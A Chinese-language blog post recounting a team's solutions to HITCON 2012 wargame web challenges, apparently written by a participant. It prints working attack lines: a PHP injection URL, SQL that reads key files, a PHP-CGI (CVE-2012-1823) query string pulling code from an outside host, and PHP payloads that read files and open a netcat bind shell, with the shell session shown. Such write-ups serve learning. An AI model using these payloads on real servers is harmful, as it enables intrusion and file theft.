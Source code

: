 ```yaml
---
layout: post
title: "HITCON 2012 Wargame Notes"
date: 2012-07-22 11:27
comments: true
categories:
- hit
- hitcon
- note
- hack
- web
- wargame
---
```


今年是第二年來 HITCON ，去年感謝 atdog 大大帶我一起報名 HITCON 玩 wargame ，
本來想說和去年一樣解解 QR code 我就很開心了，沒想到今年運氣不錯 XD

感謝同隊 crax 的組員： atdog, xman, jeffxx, lence, 還有不知道名字的兩個學弟學妹！

Wargame 題目有大大幫忙備分了：[HITCON 2012 Wargame](http://rsghost.org/backup/wargame.hitcon.org/)

## Wargame 心得

這次因為運氣好，所以有幾題 web 都用爛招解掉了 XD
用和 hint 沒關係的解法繞掉其實解的有點心虛，下面是今年我有幫到一些忙的題目：

### Web 1

主要就是利用 `{${fucntion()}}` 來直接執行 php function ，本來想用 `file_get_contents()` 來讀 `key.php` 發現被擋掉了，
所以就試著用 `include()` 再用 `get_defined_vars()` 和 `var_dump()` 看有沒有設什麼變數，還好 `key.php` 是把 key 放在變數裡，
不然的話就要用其他方法去看 source 了。

    http://wg.hack.idv.tw/~ow100/orange.php?name=dm4&data={${include($_GET[key])}}{${var_dump(get_defined_vars())}}
    http://wg.hack.idv.tw/~ow100/yourfiles/dm4.config.php?key=../key.php

### Web 2

利用 Web 3 給的 `sqln00b/sqln00b` 可以登入 phpMyAdmin ，接著把 `key.php` LOAD 到任何一個 table 就可以了：

    CREATE TABLE web2 (src TEXT);
    LOAD DATA LOCAL INFILE '/home/ow200/public_html/key.php' INTO TABLE web2;

### Web 4

從 `info.php` 發現 `Server API: CGI` 想到應該是在說今年的 [PHP CGI vulnerability](http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/)
，這東西今年出來的時候有看一下，不過其實還是在解題的時候才真的看懂 XD

在 `htaccess.txt` 裡可以看到

    RewriteCond %{QUERY_STRING} \-|\-d[a-z_]+%3d|%2d[a-z_]+%3d [NC]

發現 `%2d` 擋的比較鬆，所以研究了一下可以用

    http://wg.hack.idv.tw/~w100/info.php?%2dd+allow_url_include%3dOn+%2dd+auto_prepend_file%3dhttp://myhost/a.txt

來做 remote code execution ，試了一下就可以發現要找的東西在 `../key.txt` ，所以在 `a.txt` 這樣寫就可以讓它噴 key 了：

    <?php
        system('cat ../key.txt');
        exit();
    ?>

本來以為這題這樣就結束了，不過我們想到既然可以用 `cat` ，搞不好這題可以......

    <?php
        system('nc -l -p 5566 -e /bin/bash');
        exit();
    ?>

然後......

    [~] $ nc wg.hack.idv.tw 5566
    id
    uid=1002(w100) gid=33(www-data) groups=1002(w100),33(www-data)

### Web 3

這題看 hint 應該是要用 mysql client 的 `system` 來解，不過我們利用 Web 4 拿到的 back connect shell
可以發現要找的東西是 `/home/my100/key.txt` ，所以一樣用：

    CREATE TABLE web3 (src TEXT);
    LOAD DATA LOCAL INFILE '/home/my100/key.txt' INTO TABLE web3;

就可以在 Web 2 的 phpMyAdmin 看到 key 囉~

### Web 6

也是用爛招...... 用 Web 4 拿到的 shell 去看 Web 6 的 source ，在 `/home/a200/public_html/index.php`
裡面會判斷如果用 `admin` 登入的話，會噴 base64 encode 之後的 key

### Potent Pwnables 2

nmap 完之後發現有開 ftp ，查了一下發現有 [Serv-U FTP Jail Break](http://www.exploit-db.com/exploits/18182/)
和 hint 一模一樣應該就是它了吧 XD 不過那時候肚子太餓又找不到怎麼登入 ftp ，把連結跟 atdog 說了之後我就出去吃點心，
回來之後就被解掉了，id/pw 好像就是 `hitcon2012/hitcon2012` ，隊友好強啊！



剩下的時間都在試著解 Web 5 ，以及一直看 [駭客觀察日記](http://www.youtube.com/watch?v=l2dvg3KJoPo)
不過看到結束還是沒找到應該怎麼解......

再次感謝辛苦的主辦單位和工作人員！還有又強又好心收留我帶我一起玩的 crax 隊友！

爽啊！

<a href="http://www.flickr.com/photos/51077287@N06/7635469218/" title="Flickr 上 sunrisedm4 的 hitcon-2012-wargame-socre"><img src="http://farm9.staticflickr.com/8426/7635469218_ee0dbce135.jpg" width="500" height="225" alt="hitcon-2012-wargame-socre"></a>
